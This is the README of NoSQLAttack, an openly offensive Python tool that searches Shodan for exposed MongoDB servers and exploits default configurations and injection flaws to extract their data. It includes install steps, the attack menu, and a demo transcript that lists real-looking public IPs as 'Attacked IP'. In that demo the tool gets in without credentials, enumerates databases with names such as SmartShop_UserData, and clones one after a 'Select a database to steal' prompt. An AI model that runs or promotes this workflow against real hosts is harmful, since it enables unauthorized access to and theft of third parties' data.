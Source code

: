 #[中文说明](https://github.com/youngyangyang04/NoSQLAttack/blob/master/docs/README-zh.md)
#NoSQLAttack
#Introduction
NoSQLAttack is an open source Python tool to automate exploit MongoDB server IP around the world and disclose the database data by MongoDB default configuration weaknesses and injection attacks. 

It is base on [NoSQLMap](http://www.nosqlmap.net/index.html), tcstool's popular NoSQL injection tool and [shodan](https://www.shodan.io/), first search engine for Internet-connected devices. Some attack tests are based on and extensions of paper [Diglossia: Detecting Code Injection Attacks with Precision and Efficiency](http://www.cs.cornell.edu/~shmat/shmat_ccs13.pdf) and [No SQL, No Injection?](https://www.research.ibm.com/haifa/Workshops/security2015/present/Aviv_NoSQL-NoInjection.pdf).Presently the tool's exploits focus on MongoDB.

#Requirements
On a Debian or Red Hat based system, NoSQLAttack's dependencies already be writen in setup.py.
This project is built on Pycharm COMMUNITY 2016.1 with python 2.7.10. 

Varies based on features used:
* Shodan-1.5.3
* httplib2-0.9
* Python-2.7
* pymongo-2.7.2
* requests-2.5.0
* ipcalc-1.1.3
* MongoDB


#Building
On Linux, it goes something like this:
```bash
cd NoSQLAttack
python setup.py install
```
#Tips
* If after entering "python setup.py install", terminal show error information "No module named setuptools", just install setuptools. On Ubuntu, "sudo apt-get install python-setuptools", this command is useful
* Install [MongoDB](https://docs.mongodb.com/manual/administration/install-on-linux/) on computer.

#Usage
After building, you can run NoSQLAttack like this:
```bash
NoSQLAttack
```
Upon starting NoSQLAttack you are presented with the main menu:
```bash
================================================
        _   _       _____  _____ _                      
       | \ | |     /  ___||  _  | |                     
       |  \| | ___ \ `--. | | | | |                   
       | . ` |/ _ \ `--. \| | | | |                    
       | |\  | (_) /\__/ /\ \/' / |____          
       \_| \_/\___/\____/  \_/\_\_____/                  
                                        _          
    /\      _      _                   | |  _        
   /  \   _| |_  _| |    _____    ___  | | / /       
  / /\ \ |_   _||_   _| / __  \  / __| | |/ /        
 / /--\ \  | |_   | |_  | |_| | | |__  | |\ \       
/ / -- \ \ \___\  \___\ \______\ \___| | | \_\      
================================================    
NoSQLAttack-v0.2
sunxiuyang04@gmail.com


1-Scan attacked IP
2-Configurate parameters
3-MongoDB Access Attacks
4-Injection Attacks
x-Exit
```
#demo
```bash
===============================================
        _   _       _____  _____ _                      
       | \ | |     /  ___||  _  | |                     
       |  \| | ___ \ `--. | | | | |                   
       | . ` |/ _ \ `--. \| | | | |                    
       | |\  | (_) /\__/ /\ \/' / |____          
       \_| \_/\___/\____/  \_/\_\_____/                  
                                        _          
    /\      _      _                   | |  _        
   /  \   _| |_  _| |_   _____    ___  | | / /       
  / /\ \ |_   _||_   _| / __  \  / __| | |/ /        
 / /--\ \  | |    | |_  | |_| |  ||__  | |\ \       
/ / -- \ \ \___\  \___\ \______\ \___| | | \_\      
===============================================    
NoSQLAttack-v0.2
sunxiuyang04@gmail.com


1-Scan attacked IP
2-Configurate parameters
3-MongoDB Access Attacks
4-Injection Attacks
x-Exit
Select an option:1
Start Scanning.....
Results found:28793
1_Attacked IP : 149.202.88.135
2_Attacked IP : 49.212.186.80
3_Attacked IP : 85.9.62.231
4_Attacked IP : 121.78.239.11
5_Attacked IP : 54.226.207.112
6_Attacked IP : 119.254.66.44
7_Attacked IP : 121.46.0.83
8_Attacked IP : 162.243.21.180
9_Attacked IP : 210.23.29.75
Select IP to attack:2
Start Default Configuration Attack(y/n)?y
DB access attacks(mongoDB)
=========================
Checking to see if crendentials are need
49.212.186.80

27017
Successful access with no credentials!


1-Get Server Version and Platform
2-Enumerate Databases/Collections/Users
3-Clone a Database
4-Return to Main Menu
Select an attack: 2
List of databases:
MultiCopyService_UserData
SmartNFC_UserData
SmartShop_UserData
KioskPointMng2_UserData
admin
db
local

1-Get Server Version and Platform
2-Enumerate Databases/Collections/Users
3-Clone a Database
4-Return to Main Menu
Select an attack: 3


(1)MultiCopyService_UserData
(2)SmartNFC_UserData
(3)SmartShop_UserData
(4)KioskPointMng2_UserData
(5)admin
(6)db
(7)dbItem
(8)local
Select a database to steal:6
Does this Database require credentials.(y/n)?n
Database cloned. Copy another (y/n)?
```
Login mongoDB and show dbs to select a collection

![image](https://github.com/youngyangyang04/NoSQLAttack/blob/master/images/scanIP7.png)

Show collection

![image](https://github.com/youngyangyang04/NoSQLAttack/blob/master/images/scanIP8.png)

Show information

![image](https://github.com/youngyangyang04/NoSQLAttack/blob/master/images/scanIP9.png)
